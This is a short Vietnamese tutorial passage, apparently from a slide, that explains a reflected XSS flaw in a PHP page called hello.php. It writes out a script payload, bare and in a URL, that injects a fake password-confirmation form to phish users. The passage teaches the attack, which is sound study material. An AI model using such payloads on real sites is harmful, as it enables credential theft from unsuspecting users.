

#
Xem xét source code của hello.php , ta thấy không có sự ràng buộc dữ liệu nào, vì vậy, thay vì truyền tham số là passionery , ta có thể thay bằng:
<script>document.getElementById('hello').innerHTML="<label>Vui lòng xác nhận lại mật khẩu để tiếp tục: </label><input type='password'/><button onclick='show()'>Submit</button>";function show(){alert('HACKED');}</script>
Như vậy URL sẽ thành: http://www.abc.com/hello.php?name=<script>document.getElementById('hello').innerHTML="<label>Vui lòng xác nhận lại mật khẩu để tiếp tục:</label><input type='password'/><button onclick='show()'>Submit</button>";function show(){alert('HACKED');}</script>
Sau khi nhập vào ô xác nhận thì người dùng đã submit pass của mình đi…